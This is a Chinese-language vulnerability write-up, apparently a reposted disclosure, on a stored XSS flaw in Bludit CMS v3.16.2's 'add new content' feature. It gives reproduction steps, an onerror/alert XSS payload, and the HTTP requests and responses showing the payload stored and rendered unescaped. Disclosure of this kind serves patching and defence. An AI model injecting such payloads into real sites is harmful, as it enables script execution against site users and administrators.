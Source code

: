 ```yaml
---
date: 2025-08-04T14:01:23+08:00
title: Bludit v3.16.2存储型XSS漏洞分析：通过"添加新内容"功能实现攻击
tags: [XSS漏洞,Bludit,网络安全,漏洞分析]
authors: qife
description: 本文详细分析了Bludit CMS v3.16.2中存在的存储型XSS漏洞，攻击者可通过"添加新内容"功能注入恶意脚本，包含完整的漏洞复现步骤和HTTP请求/响应数据。
---
```


# 漏洞标题：Bludit v3.16.2"添加新内容"功能存储型XSS漏洞
# 日期：2025年7月
# 漏洞作者：Andrey Stoykov
# 版本：3.16.2
# 测试环境：Debian 12
# 博客：https://msecureltd.blogspot.com/

存储型XSS"添加新内容"功能漏洞#1：

复现步骤：

1. 使用管理员账户登录并访问"新建内容"
2. 在"源代码"字段输入以下参数
"<iframe><textarea></iframe><img src="" onerror="alert(document.domain)">"
3. 点击"预览"时XSS载荷将被触发

// 添加新内容的HTTP POST请求

POST /bludit/admin/new-content HTTP/1.1
Host: 192.168.58.133
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:140.0)
Gecko/20100101 Firefox/140.0
[...]

tokenCSRF=03a860fcc567fed86f6cb57e5877a469ef27e2ac&uuid=b219c568827ee49d5b8be839d6ab1043&type=published&coverImage=&content=<iframe><textarea></iframe><img+src%3d""+onerror%3d"alert(document.domain)">&category=&description=&date=2025-06-04+15%3A15%3A17&typeSelector=published&position=3&tags=&template=&externalCoverImage=&slug=xss&noindex=0&nofollow=0&noarchive=0&title=xss


// HTTP响应

HTTP/1.1 301 Moved Permanently
Date: Wed, 04 Jun 2025 19:16:04 GMT
Server: Apache/2.4.37 (Unix) OpenSSL/1.0.2q PHP/5.6.40 mod_perl/2.0.8-dev
Perl/v5.16.3
X-Powered-By: Bludit
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate, post-check=0,
pre-check=0
Pragma: no-cache
Location: /bludit/admin/content
Content-Length: 0
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8


// 触发XSS的HTTP GET请求

GET /bludit/admin/edit-content/xss HTTP/1.1
Host: 192.168.58.133
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:140.0)
Gecko/20100101 Firefox/140.0
[...]


// HTTP响应

HTTP/1.0 200 OK
Date: Wed, 04 Jun 2025 19:16:06 GMT
Server: Apache/2.4.37 (Unix) OpenSSL/1.0.2q PHP/5.6.40 mod_perl/2.0.8-dev
Perl/v5.16.3
X-Powered-By: Bludit
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate, post-check=0,
pre-check=0
Pragma: no-cache
Connection: close
Content-Type: text/html; charset=UTF-8

[...]
<!-- 编辑器 -->
<textarea id="jseditor" class="editable h-100"
style=""><iframe><textarea></iframe><img+src%3d""+onerror%3d"alert(document.domain)">
[...]